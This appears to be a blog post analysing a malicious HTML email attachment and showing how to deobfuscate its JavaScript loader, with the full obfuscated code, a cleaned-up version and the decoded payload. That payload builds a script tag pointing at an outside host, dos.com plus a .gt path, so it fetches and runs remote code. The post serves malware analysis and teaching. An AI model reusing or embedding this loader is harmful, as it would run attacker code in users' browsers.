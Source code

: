```yaml
---
setup: |
  import Layout from '../../layouts/BlogPost.astro'
title: Deobfuscating a simple html malware loader
subtitle: 
publishDate: 2023-03-14
description: 
tags: ['obfuscation', 'web', 'malware']
permalink: https://halb.it/posts/html-loader-deobfuscation/
---
```




I've got my hands on a malicious spam email that contained an html attachment with the following script

```js
function a0uqiiqu(){var tvtetaepmuol=['124DmjXwe','src','https://dos.com','512295URcyIF','750664RVFSzX',
'36WPNViT','34947uflpIw','59941oAwubn','createElement','1934810DDyBir','47565AALipC','1944VdGjMp',
'.gt/udu/udu.js?','script','12gOlcLD','200pNfvmM','3438gqVBAW'];a0uqiiqu=function(){return tvtetaepmuol;};
return a0uqiiqu();}var a0tauiqnasu=a0ouetecdcnseettrulcs;(function(uegtaapfalc,ipartuuqsrnae){
var umuqirae=a0ouetecdcnseettrulcs,eedxpatuti=uegtaapfalc();while(!![]){try{var lucesdeteds=-parseInt(
umuqirae(0xe9))/0x1*(parseInt(umuqirae(0xe8))/0x2)+-parseInt(umuqirae(0xed))/0x3+parseInt(umuqirae(0xea)
)/0x4*(-parseInt(umuqirae(0xe3))/0x5)+parseInt(umuqirae(0xe7))/0x6*(-parseInt(umuqirae(0xf1))/0x7)+-
parseInt(umuqirae(0xee))/0x8*(-parseInt(umuqirae(0xef))/0x9)+parseInt(umuqirae(0xf3))/0xa+parseInt(
umuqirae(0xf0))/0xb*(parseInt(umuqirae(0xe4))/0xc);if(lucesdeteds===ipartuuqsrnae)break;else eedxpatuti[
'push'](eedxpatuti['shift']());}catch(ieitmuosrseubp){eedxpatuti['push'](eedxpatuti['shift']());}}}(
a0uqiiqu,0x3eb7d));var incidunt=document[a0tauiqnasu(0xf2)](a0tauiqnasu(0xe6));function 
a0ouetecdcnseettrulcs(uqiiqu,ouetecdcnseettrulcs){var uegtaapfalc=a0uqiiqu();return a0ouetecdcnseettrulcs=
function(ipartuuqsrnae,eedxpatuti){ipartuuqsrnae=ipartuuqsrnae-0xe3;var lucesdeteds=uegtaapfalc[
ipartuuqsrnae];return lucesdeteds;},a0ouetecdcnseettrulcs(uqiiqu,ouetecdcnseettrulcs);}incidunt[a0tauiqnasu(
0xeb)]=a0tauiqnasu(0xec)+a0tauiqnasu(0xe5)+'83642',document['head']['appendChild'](incidunt);

```

It is a simple loader, that downloads and runs an external script from the internet. The obfuscation is not sophisticated since it's only there to avoid automated analysis.
For a human, this is actually pretty easy to understand despite the scary look

After formatting the code and renaming some variables, we are left with this

```js
function getStrArray() {
  return ["124DmjXwe", "src", "https://dos.com", "512295URcyIF", "750664RVFSzX", "36WPNViT", "34947uflpIw", "59941oAwubn", "createElement", "1934810DDyBir", "47565AALipC", "1944VdGjMp", ".gt/udu/udu.js?", "script", "12gOlcLD", "200pNfvmM", "3438gqVBAW"];
}
function getStrArrayElement(param1, unused_param2) {
    var strArray = getStrArray();
    param1 = param1 - 227;
    return strArray[param1];
}



(function scramble_str_array(getStrArray, hardcodedInteger) {
  var umuqirae = getStrArrayElement, eedxpatuti = getStrArray();
  while (true) {
    try {
      var lucesdeteds = -parseInt(umuqirae(233)) / 1 * (parseInt(umuqirae(232)) / 2) + -parseInt(umuqirae(237)) / 3 + parseInt(umuqirae(234)) / 4 * (-parseInt(umuqirae(227)) / 5) + parseInt(umuqirae(231)) / 6 * (-parseInt(umuqirae(241)) / 7) + -parseInt(umuqirae(238)) / 8 * (-parseInt(umuqirae(239)) / 9) + parseInt(umuqirae(243)) / 10 + parseInt(umuqirae(240)) / 11 * (parseInt(umuqirae(228)) / 12);
      if (lucesdeteds === hardcodedInteger) break; else eedxpatuti.push(eedxpatuti.shift());
    } catch (ieitmuosrseubp) {
      eedxpatuti.push(eedxpatuti.shift());
    }
  }
}(getStrArray, 256893));



var incidunt = document[getStrArrayElement(242)](getStrArrayElement(230));
incidunt[getStrArrayElement(235)] = getStrArrayElement(236) + getStrArrayElement(229) + "83642", document.head.appendChild(incidunt);
```

Lets break it down:

- The first block defines an array of strings

- In the second block a mysterious algorithm inside an infinite loop scrambles the content of the array

- In the final block the actual payload is defined using strings from the scrambled array


The scrambler algorithm looks pretty complicated, fortunately we don't have to understand it. Instead, we are going to use a very old trick and replace the code payload with a string

```js
var deobfuscated_payload_str = `
  var incidunt = document[${getStrArrayElement(242)}](${getStrArrayElement(230)});

  incidunt[${getStrArrayElement(235)}] = ${getStrArrayElement(236)} + ${getStrArrayElement(229)} + "83642",
    document.head.appendChild(incidunt);
`

console.log(deobfuscated_payload_str)

```

Now when we run the script it will very kindly print its payload instead of executing it.

Here it is:

```js
var incidunt = document[createElement](script);

incidunt[src] = https://dos.com + .gt/udu/udu.js? + "83642",
  document.head.appendChild(incidunt);
```
